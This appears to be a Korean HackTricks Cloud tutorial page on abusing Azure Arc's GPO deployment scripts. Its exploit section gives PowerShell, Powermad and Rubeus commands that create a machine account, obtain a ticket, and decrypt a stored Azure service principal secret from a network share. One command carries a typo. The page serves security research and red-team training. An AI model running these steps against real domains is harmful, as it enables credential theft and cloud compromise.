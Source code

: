 # Az - Azure Arc 취약한 GPO 배포 스크립트

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로에서 영웅까지 AWS 해킹 배우기**</summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

### 문제 식별

Azure Arc는 새로운 내부 서버(도메인에 가입된 서버)를 Azure Arc로 통합할 수 있게 해주는 Group Policy Object 방법을 제공합니다. 이를 용이하게 하기 위해 Microsoft는 온보딩 프로세스를 시작하는 데 필요한 배포 툴킷을 제공합니다. ArcEnableServerGroupPolicy.zip 파일 내에는 DeployGPO.ps1, EnableAzureArc.ps1 및 AzureArcDeployment.psm1 스크립트가 포함되어 있습니다.

DeployGPO.ps1 스크립트를 실행하면 다음 작업을 수행합니다:

1. 로컬 도메인 내에서 Azure Arc 서버 온보딩 GPO를 생성합니다.
2. 온보딩 프로세스를 위해 지정된 네트워크 공유에 EnableAzureArc.ps1 온보딩 스크립트를 복사합니다. 이 공유에는 Windows 설치 프로그램 패키지도 포함됩니다.

이 스크립트를 실행할 때 시스템 관리자는 **ServicePrincipalId** 및 **ServicePrincipalClientSecret**와 같은 두 가지 주요 매개변수를 제공해야 합니다. 또한 도메인, 공유를 호스팅하는 서버의 FQDN 및 공유 이름과 같은 다른 매개변수도 필요합니다. 스크립트에는 테넌트 ID, 리소스 그룹 및 기타 필요한 정보도 제공되어야 합니다.

AzureArcDeploy 디렉토리에 DPAPI-NG 암호화를 사용하여 지정된 공유에 암호화된 비밀이 생성됩니다. 암호화된 비밀은 encryptedServicePrincipalSecret이라는 파일에 저장됩니다. 이 암호화는 DeployGPO.ps1 스크립트에서 수행되며 $descriptor 및 $ServicePrincipalSecret을 입력으로 사용하여 ProtectBase64를 호출하여 수행됩니다. 설명자는 도메인 컴퓨터 및 도메인 컨트롤러 그룹 SID로 구성되어 있어서 ServicePrincipalSecret를 도메인 컨트롤러 및 도메인 컴퓨터 보안 그룹만이 복호화할 수 있도록 보장합니다. 이는 스크립트 주석에 언급된 대로입니다.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

다음과 같은 조건이 있습니다:

1. 내부 네트워크에 성공적으로 침투했습니다.
2. Active Directory 내에서 컴퓨터 계정을 생성하거나 제어할 수 있는 능력이 있습니다.
3. AzureArcDeploy 디렉토리를 포함하는 네트워크 공유를 발견했습니다.

AD 환경 내에서 컴퓨터 계정을 얻는 여러 가지 방법이 있습니다. 가장 일반적인 방법 중 하나는 컴퓨터 계정 할당량을 악용하는 것입니다. 다른 방법으로는 취약한 ACL이나 다양한 다른 구성 오류를 통해 컴퓨터 계정을 compromise하는 것이 있습니다.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
한 번 머신 계정을 획득하면 해당 계정을 사용하여 인증할 수 있습니다. runas.exe 명령을 netonly 플래그와 함께 사용하거나 Rubeus.exe를 사용하여 pass-the-ticket을 사용할 수 있습니다.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
저희 컴퓨터 계정의 TGT가 메모리에 저장되어 있으면, 다음 스크립트를 사용하여 서비스 주체 비밀을 복호화할 수 있습니다.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

이 시점에서, 우리는 Azure에 연결하기 위해 필요한 나머지 정보를 수집할 수 있습니다. 이 정보는 encryptedServicePrincipalSecret 파일과 동일한 네트워크 공유에 저장된 ArcInfo.json 파일에서 얻을 수 있습니다. 이 파일에는 TenantId, servicePrincipalClientId, ResourceGroup 등의 세부 정보가 포함되어 있습니다. 이 정보를 사용하여 우리는 Azure CLI를 사용하여 침해당한 서비스 프린시펄로 인증할 수 있습니다.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배우세요</summary>

HackTricks를 지원하는 다른 방법:

- **회사를 HackTricks에서 광고하거나 PDF로 HackTricks를 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 우리의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나**트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
- **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
